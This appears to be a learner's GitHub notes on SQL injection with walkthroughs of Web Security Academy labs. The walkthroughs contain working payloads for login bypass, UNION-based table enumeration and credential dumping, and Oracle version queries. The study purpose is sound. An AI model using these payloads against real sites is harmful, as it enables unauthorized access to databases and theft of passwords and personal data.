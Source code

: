 SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. <br>
A successful SQL injection attack can result in unauthorized access to sensitive data, such as: <br>
    Passwords. <br>
    Credit card details. <br>
    Personal user information <br>
Some common SQL injection examples include: <br>
    1.Retrieving hidden data, where you can modify a SQL query to return additional results. <br>
    2.Subverting application logic, where you can change a query to interfere with the application's logic. <br>
    3.UNION attacks, where you can retrieve data from different database tables. <br>
    4.Blind SQL injection, where the results of a query you control are not returned in the application's responses. <br>

```bash 
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Note that ```--``` is a comment indicator in SQL. This means that the rest of the query is interpreted as a comment, effectively removing it. In this example, this means the query no longer includes ```AND released = 1.``` As a result, all products are displayed, including those that are not yet released.

Another attack:
```bash
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```
This results in SQL query:
```bash
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
The modified query returns all items where either the category is Gifts, or 1 is equal to 1. As 1=1 is always true, the query returns all items.

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
In this i was asked to perform a SQL injection attack that causes the application to display one or more unreleased products . In this link
```bash
https://0a2a0093037a7ee681e8a21e005c0065.web-security-academy.net/filter?category=Lifestyle
```
I added ```'+OR+1=1--``` to get the information and it worked.

## Lab: SQL injection vulnerability allowing login bypass:
This challenge asked to bypass a login page as administrator so in the username section i added ```administrator'--``` to login as now becuase of ```--``` it will not check the password. This is how i solved the lab.

# Retrieving data from other database tables:
For example, if an application executes the following query containing the user input Gifts:
```bash
SELECT name, description FROM products WHERE category = 'Gifts'
```
An attacker can submit:
```bash
' UNION SELECT username, password FROM users--
```
This causes the application to return all usernames and passwords along with the names and descriptions of products.

# Second-order SQL injection:
```First-order SQL injection``` occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.
```Second-order SQL injection``` occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection.


# Examining the database
You can query the version details for the database. Different methods work for different database types. This means that if you find a particular method that works, you can infer the database type. For example, on Oracle you can execute:
```bash
SELECT * FROM v$version
```
You can also identify what database tables exist, and the columns they contain. For example, on most databases you can execute the following query to list the tables:
```bash
SELECT * FROM information_schema.tables
```

## Lab: SQL injection with filter bypass via XML encoding:
To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. I used Burp suite to solve this challenge. with the help of extension i used ```hackvertor``` extension which helped me encode my data to XML format using ```dec_entities/hex_entities.```

## How to prevent SQLi:
You can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements".

## Lab: SQL injection attack, querying the database type and version on Oracle:
Used Burp suit to query it. I saw when i click category it is query so i can put injection in that first i tried to print all column using ```UNION```
```bash
'+UNION+SELECT+'abc','def'+FROM+dual--
```
After this i saw i can see hidden stuff also so came to know i am in right direction. After this:
```bash
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
It displayed the database version.


## Lab: SQL injection attack, listing the database contents on non-Oracle databases:
in this i need to do a UNION attack to get the table and the column to get find where the username and the password are stored in the datbase it was a non_oracle database i need top refer cheat sheet for it i use 
```bash
https://0ae9005f03bbc1c382e8a7c800cc0009.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+table_name,null+from+information_schema.tables--
```
To display the hidden table. I found one data ```users_fglvqz``` which could contain login information so now i put a link:
```bash
https://0ae9005f03bbc1c382e8a7c800cc0009.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+column_name,null+from+information_schema.columns+where+table_name=%27users_fglvqz%27--
```
i got the column_name that contains the user and pass which was username column was ```username_cwhlov``` and password column was ```password_wbhfsw```.
As now i know the column name also my input was:
```bash
https://0ae9005f03bbc1c382e8a7c800cc0009.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+username_cwhlov,password_wbhfsw+from+users_fglvqz-
```
it displayed the administrator and password.

## Lab: SQL injection attack, listing the database contents on Oracle:
I first decided to print all the table so after seeing the cheat sheet i put the commans:
```bash
https://0af000d4038da6868019bcd9008f0034.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+table_name,null+from+all_tables--
```
i used ```all_tables``` as it is a oracle database.
i now decided to get column from table 
```bash
https://0af000d4038da6868019bcd9008f0034.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+column_name,null+from+all_tab_columns+where+table_name=%27USERS_YVITGQ%27--
```
i got the two column name for the user and password.
```bash
https://0af000d4038da6868019bcd9008f0034.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+EMAIL,PASSWORD_TAIUGS+from+USERS_YVITGQ--
```
after running this i got the password.

## Lab: SQL injection UNION attack, determining the number of columns returned by the query
To determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.
i starting adding the null column
```bash
https://0ae600de03aad8ea82d1519e00ba00ac.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+NULL--
```
I got an error so i starting to get mor null to see the output.
```bash
https://0ae600de03aad8ea82d1519e00ba00ac.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+NULL,null,null--
```
with this i solved the challenge.
